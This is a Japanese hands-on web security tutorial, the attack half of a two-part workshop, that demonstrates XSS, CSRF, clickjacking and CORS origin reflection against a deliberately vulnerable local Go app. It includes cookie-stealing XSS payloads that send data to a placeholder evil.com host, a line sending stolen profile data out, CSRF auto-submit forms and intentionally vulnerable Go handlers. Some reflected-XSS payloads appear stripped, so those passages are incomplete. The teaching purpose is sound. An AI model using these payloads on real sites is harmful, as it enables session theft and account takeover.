




# Webセキュリティ実習（前編・攻撃体験）：XSS, CSRF, クリックジャッキング、CORS を体験する

> **⏱️ 所要時間**: 約 60 分
> **🎯 レベル**: 中級
> **💻 環境**: Linux / macOS（Go 1.26+、ブラウザ）
>
> > **⚠️ 全 2 パートの前編**: このパートでは攻撃を体験します。被害者アプリへの対策適用と攻撃が止まることの検証は [Webセキュリティ実習（後編・防御編）](web_security_defense_ja.md) で行います。

## 目的

このワークショップ（前編）では、Web アプリケーションの代表的な脆弱性である XSS (クロスサイトスクリプティング)、CSRF (クロスサイトリクエストフォージェリ)、クリックジャッキング、CORS (クロスオリジンリソースシェアリング) の誤設定について、意図的に脆弱なアプリケーションを用いて各攻撃が実際にどう成立するかを体験し、その仕組みと、攻撃を可能にする脆弱なコードのパターンを認識できるようになることを目指します。

## ゴール

- XSS の仕組み（格納型・反射型）を理解し、JavaScript が実行される様子を確認する。
- CSRF の仕組みを理解し、認証済みユーザーに代わって不正なリクエストが送られる様子を確認する。
- クリックジャッキングの仕組みを理解し、iframe を用いてユーザーを視覚的に欺く手法を確認する。
- CORS の誤設定による情報漏洩の仕組みを理解し、適切なオリジン制御の重要性を確認する。
- 各攻撃を可能にしている `victim/main.go` の脆弱なコードパターンを特定できるようになる。

## 前提条件

- [ ] Go 1.26+ がインストールされている（`go version`）
- [ ] 開発者ツール付きのブラウザ（Chrome / Firefox / Edge）
- [ ] ターミナル 2 台

---

## 登場人物と攻撃フロー

### XSS (Cross-Site Scripting)

攻撃者が悪意のあるスクリプトを Web ページに埋め込み、他のユーザーのブラウザで実行させます。



### CSRF (Cross-Site Request Forgery)

ログイン済みのユーザーを騙して、意図しないリクエスト（パスワード変更やメールアドレス変更など）を脆弱なサイトへ送信させます。



### クリックジャッキング (Clickjacking)

透明な iframe を用いて、ユーザーが意図したボタンとは別のボタンをクリックさせます。



### CORS の誤設定による情報漏洩 (Cross-Origin Data Leakage)

CORS の誤設定（特に Origin Reflection）により、攻撃者がユーザーの機密データを取得できる脆弱性です。



**なぜ攻撃が成功するのか？**

CORS は「リクエストを送信するかどうか」を制御するものではなく、**「サーバーから返ってきたレスポンスを、JavaScript が読み取ることを許可するかどうか」**をブラウザが制御する仕組みです。

1. **Cookie の自動送信（CORSとは独立したブラウザの仕様）**: ブラウザは、リクエスト先のドメイン（`localhost:8080`）に対して保存済みの Cookie があれば、たとえ攻撃サイトからのリクエストであっても自動的に付与して送信します。
2. **認証の成立**: サーバーは届いた Cookie を検証し、認証済みとして機密データをレスポンスに含めます。
3. **CORS 誤設定の悪用**:
   - **Origin Reflection**: サーバーがリクエストの `Origin` ヘッダーをそのまま返すため、ブラウザは攻撃サイトからのアクセスを「許可されている」と誤認します。
   - **Access-Control-Allow-Credentials: true**: これが設定されているため、ブラウザは「認証済みレスポンスを攻撃者の JavaScript に渡しても安全だ」と判断し、レスポンスの読み取りを許可してしまいます。

つまり、**CORS の誤設定は「送られてしまった Cookie によって得られた機密情報を、他人が盗み見ることを防ぐための防波堤」を自ら壊している状態**です。

---

## アンチパターンと解決策

| 脆弱性                   | ❌ 危険な実装                                      | ✅ 安全な対策                                                |
| :----------------------- | :------------------------------------------------- | :----------------------------------------------------------- |
| **XSS**                  | ユーザー入力をエスケープせずに出力する             | 出力を適切にエスケープする、CSPを設定する                    |
| **CSRF**                 | Cookie だけに頼った認証を行う                      | CSRFトークンを使用する、SameSite属性を設定する               |
| **クリックジャッキング** | 外部サイトからの iframe 埋め込みを許可している     | `X-Frame-Options` または CSP の `frame-ancestors` を設定する |
| **CORS の誤設定**        | Origin Reflection（Origin ヘッダーをそのまま返す） | 許可リストに基づく特定のオリジンのみを許可する               |

各対策の適用方法（と、これらの攻撃に対する効きの検証）は [後編・防御編](web_security_defense_ja.md) のテーマです。

---

## アーキテクチャ

この実習では、2 つの Go アプリケーションがそれぞれ別ポートで動作します。「被害者サイト（Victim）」と「攻撃者サイト（Attacker）」が別オリジンになるため、CSRF や CORS のデモが現実に近い形で体験できます。

### ディレクトリ構造

```text
infra/assets/web_security/
├── victim/
│   ├── main.go         # 被害者サイト (port 8080)
│   └── go.mod
└── attacker/
    ├── main.go         # 攻撃者サイト (port 8081)
    └── go.mod
```

---

## 準備

### 1. アプリケーションの起動

ターミナルを 2 つ開き、それぞれでサーバーを起動します。

```bash
# ターミナル1: 被害者サイト
cd infra/assets/web_security/victim
go run main.go

# ターミナル2: 攻撃者サイト
cd infra/assets/web_security/attacker
go run main.go
```

### 2. 動作確認

ブラウザで `http://localhost:8080` にアクセスしてください。

---

## 実習ステップ

### STEP 1: 格納型 XSS (Stored XSS) ～攻撃コードの保存と実行～

掲示板のような機能にスクリプトを保存させ、ページを開くたびに実行されることを確認します。

**実施手順:**

1. `Stored XSS Demo` ページへ移動します。
2. まず `Login` ボタンを押してセッション Cookie をセットしておきます。
3. 入力欄に以下のスクリプトを入力して送信します。

   ```html
   <script>
     alert("XSS: your cookie: " + document.cookie);
   </script>
   ```

4. ページがリロードされ、アラートに Cookie 値が表示されることを確認します。
5. ページを再読み込みしても、アラートが再度表示されることを確認します（データベースに保存されているため）。

**何が起きているのか？**

```text
ユーザー入力: <script>alert(...)</script>
          ↓ (エスケープなしで保存)
データベース: <script>alert(...)</script>
          ↓ (そのままHTML出力)
ブラウザ解釈: <script>タグとして認識 → JavaScript実行

実際の攻撃スクリプト:
  new Image().src="https://evil.com/steal?c="+document.cookie

  → 攻撃者サーバーへ Cookie が送信される
  → Image オブジェクトを使う理由: fetch/XMLHttpRequest より制限が少なく、
    単に URL をリクエストするだけでデータを外部送信できるため
```

**脆弱なコード (victim/main.go:93-96):**

```go
for _, c := range comments {
    // ❌ 脆弱性: ユーザー入力をエスケープせずにそのまま出力
    fmt.Fprintf(w, "<li>%s</li>", c)
}
```

**攻撃の応用例:**

- `<script>document.location='http://evil.com?c='+document.cookie;</script>` → Cookie の盗難（画面遷移するためユーザーに気づかれる）
- `<script>new Image().src="https://evil.com/steal?c="+document.cookie;</script>` → Cookie の盗難（ユーザーに気づかれにくい）
- `<script>window.top.location='http://fake-bank.com';</script>` → フィッシングサイトへの誘導

---

### STEP 2: 反射型 XSS (Reflected XSS) ～URL経由での攻撃～

URL パラメータに含まれるスクリプトがそのままページに反映されることを確認します。

**実施手順:**

1. `Reflected XSS Demo` ページへ移動します。
2. URL の末尾に以下を追加してアクセスします。

   ```text
   http://localhost:8080/xss/reflected?q=
   ```

   ※ 現代の多くのブラウザは、`<script>` タグによる反射型 XSS を自動的にブロックします。`` を使うとこのフィルタをバイパスできます。

**何が起きているのか？**

```text
URLパラメータ: q=
            ↓ (エスケープなしでHTML埋め込み)
HTML出力: <p>0 results found for "".</p>
         ↓ (ブラウザがHTMLとして解釈)
         →  の src=x は画像の読み込みに失敗
         → onerror イベントハンドラが実行 → JavaScriptが走る

※ <script> タグはブラウザの XSS Auditor にブロックされるが、
    はフィルタをバイパスできる
```

**脆弱なコード (victim/main.go:100-105):**

```go
func reflectedXSSHandler(w http.ResponseWriter, r *http.Request) {
    q := r.URL.Query().Get("q")
    // ❌ 脆弱性: クエリパラメータをそのままHTMLに埋め込み
    fmt.Fprintf(w, "<h1>Search Results</h1><p>0 results found for \"%s\".</p>", q)
}
```

**攻撃の流れ (フィッシングメール例):**

```text
攻撃者が作成したURL:
http://victim-site.com/search?q=

↓ ユーザーがメールからリンクをクリック

被害者のCookieが攻撃者サイトへ送信される

※ onerror内で"を使う場合、URLエンコード(%22)が必要なことがある
```

---

### STEP 3: CSRF (Cross-Site Request Forgery) ～認証済みユーザーへのなりすまし～

ログイン済みのユーザーを騙して、意図しないリクエストを送信させます。

**実施手順:**

1. `ログイン` をクリックして、セッション Cookie をセットします。
   - 開発者ツール → Application → Cookies で `session_id` がセットされたことを確認
2. `被害者サイト` のトップに戻り、現在のメールアドレスが `victim@example.com` であることを確認します。
3. `CSRF Attack Page (port 8081)` リンクをクリックし、攻撃者サイト（別オリジン: localhost:8081）に移動します。
4. 攻撃者サイトの「Claim Prize」ボタンをクリックします。
5. 被害者サイトのトップに戻ると、メールアドレスが `hacker@evil.com` に変更されていることを確認します。

**何が起きているのか？**

```text
[攻撃者サイトのHTML]
<form action="http://localhost:8080/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com">
    <input type="submit" value="Claim Prize">
</form>

↓ ユーザーがボタンをクリック

ブラウザが自動的にCookieを付与:
POST /update-email HTTP/1.1
Host: localhost:8080
Cookie: session_id=secret-session-123  ← 自動的に付与！
Content-Type: application/x-www-form-urlencoded

email=hacker@evil.com

↓ サーバー側の処理

Cookieによる「認証」は成功 → メールアドレスが変更される
```

**なぜ攻撃が成功するのか？**

1. **ブラウザのCookie仕様**: Cookie はドメインに基づいて付与され、ポートは関係しません。攻撃者ページ（`localhost:8081`）と被害者（`localhost:8080`）は*同じサイト*にいるため、セッション Cookie は自動的に付与されます
2. **SameSite属性の不在**: デモでは `SameSite` 属性を設定していないため、他サイトからのリクエストにも Cookie が送られます（注意: `SameSite=Lax` でも**この攻撃は止まりません**。両ページは同じサイト `localhost` だからです。[後編](web_security_defense_ja.md)では、本当にクロスサイトのオリジンから攻撃を再実行して確認します）
3. **CSRFトークンがない**: リクエストが本当にユーザー意図かを検証する仕組みがなく、これが攻撃を実際に止める不在の防御です

**自動送信バージョン（JavaScript使用）:**

```html
<!-- ページ読み込み時に自動送信 -->
<body onload="document.forms[0].submit()">
  <form action="http://victim.com/update-email" method="POST">
    <input type="hidden" name="email" value="hacker@evil.com" />
  </form>
</body>
```

---

### STEP 4: クリックジャッキング (Clickjacking) ～透明なiframeによる操作乗っ取り～

透明な iframe を用いて、ユーザーが意図したボタンとは別のボタンをクリックさせます。

**実施手順:**

1. 攻撃者サイト（port 8081）の `Clickjacking Attack Page` をクリックします。
2. 「無料ドーナツ配布中！」のページが表示されます。
3. 「GET DONUTS」ボタンの下に、うっすらと見える被害者サイトの「Follow @hacker」ページが表示されます（デモ用に半透明にしています）。
4. 「GET DONUTS」ボタンをクリックすると、実際には裏にある「Follow」ボタンがクリックされます。
5. 意図せず @hacker をフォローしてしまいます。

**何が起きているのか？**

```css
/* 攻撃者サイトのCSS */
#victim-frame {
  position: absolute; /* 絶対位置で配置 */
  top: 0;
  left: 0;
  opacity: 0.4; /* 本物の攻撃では 0.0 (完全透明) */
  z-index: 2; /* 背景より手前に配置 */
}

#fake-page {
  position: absolute;
  z-index: 1; /* 背景側 */
  /* 「無料ドーナツ」の偽ページ */
}
```

```text
┌─────────────────────────────────────┐
│  [攻撃者の偽ページ - z-index: 1]    │
│  🍩 無料ドーナツ配布中！            │
│                                     │
│     ┌───────────────────────────┐   │
│     │ [被害者サイトのiframe]    │   │
│     │ z-index: 2 (手前)         │   │
│     │ Follow @hacker            │   │
│     │ [Follow]ボタン            │   │ ← 透明/半透明
│     └───────────────────────────┘   │
│                                     │
│         [GET DONUTS]ボタン          │ ← 偽ボタン
│         (実際はiframeのボタンの上)  │
└─────────────────────────────────────┘
```

**脆弱なコード (victim/main.go:137-157):**

```go
func followHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ 脆弱性: X-Frame-Options ヘッダーがない
    // 他サイトのiframe内で表示可能になっている

    fmt.Fprintf(w, `
        <h1>Follow @hacker</h1>
        <button>Follow</button>
    `)
}
```

**ボタンの位置合わせ:**

```javascript
// 攻撃者は被害者のボタン位置を把握し、偽ボタンの位置を調整
// .fake-btn { margin-top: 105px } → 被害者のボタンと位置が一致
```

---

### STEP 5: CORS の誤設定 (Cross-Origin Data Leakage) ～別サイトからのデータ窃取～

API が Origin Reflection（リクエストの Origin ヘッダーをそのまま返す設定）を行っていると、攻撃者サイトから Cookie を含めたリクエストを送り、ユーザーの機密データを取得できてしまいます。

**実施手順:**

1. 被害者サイト（port 8080）で `Login` ボタンを押してセッション Cookie をセットします。
2. 攻撃者サイトの `CORS Attack Page (port 8081)` リンクをクリックします。
3. 「Verify Account」ボタンをクリックします。
4. 被害者サイトの `/api/profile` から名前、メールアドレス、API キーが窃取されて画面に表示されることを確認します。

**何が起きているのか？**

```text
[攻撃者サイトのJavaScript]
fetch('http://localhost:8080/api/profile', {credentials: 'include'})
  .then(r => r.json())
  .then(data => { /* データを表示 */ })

↓ ブラウザがプリフライトリクエスト送信

OPTIONS /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081

↓ 被害者サーバーのレスポンス（❌ 脆弱性: Origin Reflection）

HTTP/1.1 204 No Content
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection!
Access-Control-Allow-Credentials: true

↓ ブラウザが実際のリクエスト送信

GET /api/profile HTTP/1.1
Host: localhost:8080
Origin: http://localhost:8081
Cookie: session_id=secret-session-123  ← credentials: 'include' で送信！

↓ 被害者サーバーのレスポンス

HTTP/1.1 200 OK
Access-Control-Allow-Origin: http://localhost:8081   ← Origin Reflection
Access-Control-Allow-Credentials: true
Content-Type: application/json

{"name":"Alice Victim","email":"victim@example.com","secret":"my-secret-api-key-abc123"}

↓ ブラウザのCORSチェック

Origin が一致 → 許可
→ 攻撃者サイトのJavaScriptがレスポンスを読み取れる！
```

**脆弱なコード (victim/main.go:159-188):**

```go
func profileHandler(w http.ResponseWriter, r *http.Request) {
    // ❌ 脆弱性: Origin Reflection（任意のオリジンを信頼）
    origin := r.Header.Get("Origin")
    if origin != "" {
        w.Header().Set("Access-Control-Allow-Origin", origin)
        w.Header().Set("Access-Control-Allow-Credentials", "true")
    }

    // 認証済みユーザーの機密データを返す
    json.NewEncoder(w).Encode(profile)
}
```

**なぜ攻撃が成功するのか？**

1. **ユーザーがログイン済み**: Cookie がブラウザに保存されている
2. **Origin Reflection**: サーバーが Origin ヘッダーを検証せずにそのまま返すため、任意のオリジンが許可される
3. **Credentials の許可**: `Access-Control-Allow-Credentials: true` により Cookie の送信が許可されている
4. **プリフライトの通過**: OPTIONS リクエストでも同様の Reflection が発生する

**実際の攻撃では:**

```text
攻撃者は窃取したデータを自サーバーに送信:
new Image().src='https://evil.com/collect?d='+JSON.stringify(data)
```

**比較：`Access-Control-Allow-Origin: *` vs `Origin Reflection`**

| 特徴                     | ACAO: \*                     | Origin Reflection                |
| :----------------------- | :--------------------------- | :------------------------------- |
| **許可する相手**         | 全員                         | 全員（一人ずつ個別に許可）       |
| **Credentials (Cookie)** | 使えない                     | 使えてしまう（超危険）           |
| **主な用途**             | 公共の API、静的ファイル     | 開発中のデバッグ（※本番では NG） |
| **セキュリティ**         | 比較的安全（公共データのみ） | 脆弱性（情報漏洩の温床）         |

---

## 演習後の理解度確認

### 確認クイズ

1. **格納型XSSと反射型XSSの違いは何ですか？**
   - <details><summary>解答</summary>格納型は攻撃コードがサーバーに保存され、ページを閲覧するたびに実行されます。反射型はURLパラメータ等を経由して即座に実行され、保存されません。</details>

2. **なぜCSRF攻撃でCookieが送信されるのですか？**
   - <details><summary>解答</summary>Cookie はドメインに基づいて付与され、ポートは関与しないためです。攻撃者ページ（ポート 8081）と被害者（ポート 8080）は同じサイトにあり、Cookie が付与されます。また SameSite 属性がない場合、他サイトからのリクエストにも送信されます。</details>

3. **CORS 攻撃（STEP 5）では、ブラウザに同一オリジンポリシーがあるのに、なぜ攻撃者の JavaScript はプロフィールデータを読み取れましたか？**
   - <details><summary>解答</summary>被害者サーバーが Origin Reflection を行い、リクエストの Origin ヘッダーをそのまま Access-Control-Allow-Origin として返し、さらに Access-Control-Allow-Credentials: true を設定したためです。ブラウザは攻撃者オリジンを「許可済み」と判断し、認証済みレスポンスを攻撃者の JavaScript に渡してしまいました。</details>

---

## 学んだこと

- **XSS**: エスケープされていない出力は攻撃者の JavaScript を自オリジンで実行させてしまう。格納型 `<script>` がページを開くたびに発火し、反射型 `` が URL だけで発火するのを確認した。
- **CSRF**: ブラウザは Cookie を自動で付けるため、他オリジンにあるフォームだけでログインユーザーのメールアドレスが変更できた。
- **クリックジャッキング**: フレーミング対策がないと、自ページは透明な iframe の下に重ねられ、ボタンのクリックを盗める。
- **CORS の誤設定**: Origin Reflection と Credentials の組み合わせは、ブラウザの同一オリジン保護をデータ窃取の裏口に変えてしまう。

**次のステップ**: エスケープ、CSP、Cookie 属性、CSRF トークン、フレーミング対策ヘッダー、CORS 許可リストといった対策を適用して検証する [Webセキュリティ実習（後編・防御編）](web_security_defense_ja.md) へ。

## 片付け

各ターミナルで `Ctrl+C` を押してサーバーを停止してください。

---

## トラブルシューティング

### Q: アラートが表示されない

**A:** ブラウザの XSS Auditor 等が攻撃をブロックしている可能性があります。

- Chrome: `--disable-xss-auditor` フラグ付きで起動
- 開発者ツールの Console でエラーを確認

### Q: CSRF攻撃後、メールアドレスが変更されない

**A:** 以下を確認してください：

- ログインして Cookie がセットされているか（開発者ツール → Application → Cookies）
- 攻撃者サイトのフォームアクション URL が正しいか

### Q: クリックジャッキングのiframeが表示されない

**A:** ブラウザの iframe ブロック機能が動作している可能性があります。

- 被害者サイト（localhost:8080）と攻撃者サイト（localhost:8081）が両方起動しているか確認
- 攻撃者サイトの iframe src が `http://localhost:8080/follow` を指しているか確認

---

## 参考文献

- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [IPA: 安全なウェブサイトの作り方](https://www.ipa.go.jp/security/vuln/websecurity.html)
- [MDN: オリジン間リソース共有 (CORS)](https://developer.mozilla.org/ja/docs/Web/HTTP/CORS)
